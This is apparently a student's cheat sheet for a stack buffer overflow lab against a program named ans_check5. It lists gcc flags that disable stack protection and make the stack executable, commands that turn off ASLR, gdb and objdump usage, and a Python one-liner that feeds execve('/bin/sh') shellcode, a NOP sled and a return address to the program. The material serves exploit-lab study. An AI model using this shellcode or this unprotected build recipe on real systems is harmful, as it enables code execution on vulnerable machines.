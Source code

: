 # A sheet for later use

gdb 들어간다음에
disass main 해서 문제가 되는 함수의 호출부분을 찾는다.
그 다음 라인이 함수 복귀 주소


## gcc
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5

-fno-stack-protector : disables stack protection. Asks the compiler not to add the StackGuard protection.
-g : default debug information
-o : set output file name
-z execstack : marks the stack as executable
```

## objdump
```
objdump -D ans_check5 | grep -B 1 exit

# grep -B 1 exit:  -B 1 : exit 찾고 그것만 보여주지 말고 그 전에 한줄도 보여주란 옵션
# grep -A 1 exit:  -A 1 : exit 찾고 그것만 보여주지 말고 그 에 한줄도 보여주란 옵션
```

## exec with python
```
./ans_check5 $(python -c "print '\xAA'*N + '\xef\xbe\xad\xde'")
```


## To disable ASLR
0 (disabled), or 1 or 2(enabled)
cat /proc/sys/kernel/randomize_va_space # Write down val
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

## gdb example
```
# run gdb quietly
gdb -q <program>

# set break point and run
set args “--help”
break __libc_start_main
break *0x08048534 : Using address directly, type *
run

# disassemble function. To find out the address of the function
disass <function name>

# Investigate memory
frame
bt
info frame
info registers
x /16xw $esp
set *{start} = 0x20554c42

x/s ans_buf
x/xw &ans_flag
x/32xw $esp
```

## env execute
```
# command line execution
env -i PWD="/home/seed/stack_addresses" SHELL="/bin/bash" SHLVL=0 /home/seed/stack_addresses/ans_check5 <param>

# gdb execution
env -i PWD="/home/seed/labs/lab3/stack_addresses" SHELL="/bin/bash" SHLVL=0 gdb /home/seed/523/labs/lab3/stack_addresses/ans_check5
unset env LINES
unset env COLUMNS
break 
run $( python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x90'*22 + '\x8e\xfd\xff\xbf'")
x/32xw $esp
c
x/32xw $esp
```


## gdb options
```
-q : 시작시 설명문구 없이 시작
list <line number> : Show the code
break <line nuber> : Set a break point
run <param> : keep executing. <param> is optional
c : after breaking, keep executing
dissass <function name> : Shows the disassembled code and it's memory address
bt : backtrace
set args <param> : Set run param
set <address> = <value> : Set <value> at the <address>\
i b : break information 보기
i r esp : information register esp
```

